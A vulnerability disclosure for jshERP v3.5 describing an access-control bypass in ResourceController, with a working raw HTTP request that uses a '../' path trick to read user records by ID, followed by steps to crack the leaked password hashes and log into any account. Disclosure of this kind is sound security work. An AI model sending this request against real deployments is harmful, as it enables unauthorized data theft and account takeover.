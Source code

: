 # Incorrect access control in the component \controller\ResourceController.java of jshERP v3.5 allows unauthorized attackers to obtain all the corresponding ID data by modifying the ID value.
> [description]
> Incorrect access control in the component
> \controller\ResourceController.java of jshERP v3.5 allows unauthorized
> attackers to obtain all the corresponding ID data by modifying the ID
> value.
>
> ------------------------------------------
> [Vendor of Product]
> https://github.com/jishenghua/jshERP
>
> ------------------------------------------
>
> [Affected Product Code Base]
> jshERP - <=3.5
>
> ------------------------------------------
>
> [Affected Component]
> The getList method in jshERP-boot\src\main\java\com\jsh\erp\controller\ResourceController.java
<img width="1988" height="618" alt="image" src="https://github.com/user-attachments/assets/2693db44-f40e-4df7-9f6b-439c788d6235" />

> [Attack Vectors]
> 1.Use BurpSuite to intercept a GET request package and modify it to the following version, and then change the ID value to obtain all the data of the corresponding ID
```
GET /jshERP-boot/user/login/../../user/info?id=133 HTTP/1.1
Host: 192.168.0.107:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Referer: http://192.168.0.107:3000/system/user
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1754017209; HMACCOUNT=6F302B8EEE0C4A4E; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1754297602
Connection: keep-alive


```
> <img width="2170" height="1060" alt="image" src="https://github.com/user-attachments/assets/7e918ff7-372d-480c-aa2a-1d6ae2a3820a" />
>2.Take the obtained password to the cmd5 platform for decryption to obtain the plaintext password, so as to realize the arbitrary login of the account
> <img width="1338" height="428" alt="image" src="https://github.com/user-attachments/assets/3e5dc537-8497-4a69-95e5-e2e4d3a56c19" />

Impact:All data of the corresponding ID is obtained through unauthorized access, so as to realize the arbitrary login of the account
